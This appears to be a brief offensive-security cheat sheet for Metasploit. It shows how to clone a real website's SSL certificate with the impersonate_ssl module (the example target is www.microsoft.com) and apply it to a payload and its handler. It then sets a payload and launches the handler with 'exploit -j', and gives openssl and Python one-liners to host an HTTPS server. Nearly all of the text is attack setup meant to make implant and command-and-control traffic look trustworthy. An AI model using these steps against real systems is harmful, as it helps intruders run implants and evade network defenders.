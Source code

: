 From the created files, utilize the .pem file as the ssl certificate in both the exploit/payload and the handler.

	msf > use auxiliary/gather/impersonate_ssl
	msf > set RHOST [domain]
	# example (msf > set RHOST www.microsoft.com)
	msf > run

## **Payload**

	msf > set handlersslcert [.pem file]
	msf > set stagerverifysslcert true
## **Handler**
	msf > set handlersslcert [.pem file]
	msf > set stagerverifysslcert true
	msf > set payload [payload]
	msf > exploit -j

## Create self-signed SSL certificate
	openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes

**Host webserver using the created certificate**

	python3 -c "import http.server, ssl;server_address=('[IP]',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"

